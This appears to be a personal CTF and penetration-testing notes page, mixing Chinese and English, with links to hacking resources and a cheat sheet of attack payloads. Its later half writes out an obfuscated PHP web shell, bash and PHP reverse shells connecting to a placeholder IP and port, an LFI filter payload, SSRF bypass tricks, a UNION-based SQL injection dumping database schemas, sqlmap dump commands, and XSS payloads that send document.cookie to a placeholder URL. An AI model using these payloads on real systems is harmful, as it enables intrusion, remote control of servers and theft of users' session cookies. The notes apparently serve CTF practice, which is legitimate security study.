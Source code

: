 # Tools

## CTF Tools

* [CyberShef](https://gchq.github.io/CyberChef/#input=8J%2BNo/CfjbTwn42m8J%2BMtPCfjaLwn4278J%2BNs/CfjbTwn42l8J%2BNp/CfjaHwn42u8J%2BMsPCfjafwn42y8J%2BNofCfjbDwn42o8J%2BNufCfjZ/wn42i8J%2BNufCfjZ/wn42l8J%2BNrfCfjLDwn4yw8J%2BMsPCfjLDwn4yw8J%2BMsPCfjarwn42p8J%2BNvQo)
* [Hack Tricks](https://book.hacktricks.xyz/tunneling-and-port-forwarding)
* [Command Injection](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%8F%8D%E5%BC%95%E5%8F%B7%EF%BC%88%E9%87%8D%E9%9F%B3%E7%AC%A6%EF%BC%89)

### Web Shell
* https://www.webshell.cc/4422.html

### Reverse Shell
* [Reverse Shell大全](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 
* [GitHub List Rev](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### Crypto
* https://blog.csdn.net/qq_38780085/article/details/79305488
* [BrainFuck](https://gist.github.com/maxcountryman/1699708)

## Hacking Trick

### MD5 Collision
* somd5.com
* cmd5.com

## Paid Software Download

* [免費Java - OpenJDK download](https://adoptopenjdk.net/)
* [Patch My PC](https://patchmypc.com/home-updater)

## Shodan
![](https://i.imgur.com/qBAtBQB.png)

## Reverse Shell Upload File

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet


## SQLMAP

### download source

```bash
git clone https://github.com/sqlmapproject/sqlmap
```

### 起手式

```python
python sqlmap.py -o --random-a -u "url" --tamper base64encode -D <DB> -T <TABLE> --dump
```

### 各種參數

- https://xz.aliyun.com/t/3010

```
--dbs
--schema
--batch
-D
-T
--data="<post 參數>"
--random-agent
--tamper base64encode
-technique=U,B --union-cols=number --dbms-mysql
```
### app.any.run

* https://app.any.run/

### 手打

```
union select 1,2,group_concat(schema_name),4 from information_schema.schemata#
```

## PHP

### reverse shell

#### linux
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/<ip>/<port> 0>&1'");
?>
```

```php
php -r '$sock=fsockopen(<ip>,<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### LFI

```
/?path=php://filter/convert.base64-encode/resource=index.php
```

### SSRF繞過
- `127.0.0.0/8`
- `redirect`
- `http://@127.0.0.1`

```
gethostbyname('127.0.0.1') == '127.0.0.1'
gethostbyname('localhost') == '127.0.0.1'
gethostbyname('localtest.me') == '127.0.0.1'
gethostbyname('@127.0.0.1') == '@127.0.0.1'
```

## XSS

```html
<script>var i=new Image;i.src="<url>/?"+document.cookie;</script>
<svg/onload="document.location='<url>/?'+document.cookie">
```

## 滲透相關，有點東西

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/

### JailBreak

* IOS 越獄
    * https://checkra.in/

### 監控

* frida
    * https://frida.re/
* ARM converter
    * https://armconverter.com/
* .ipa 重新簽名
    * https://coderwall.com/p/cea3fw/resign-ipa-with-new-distribution-certificate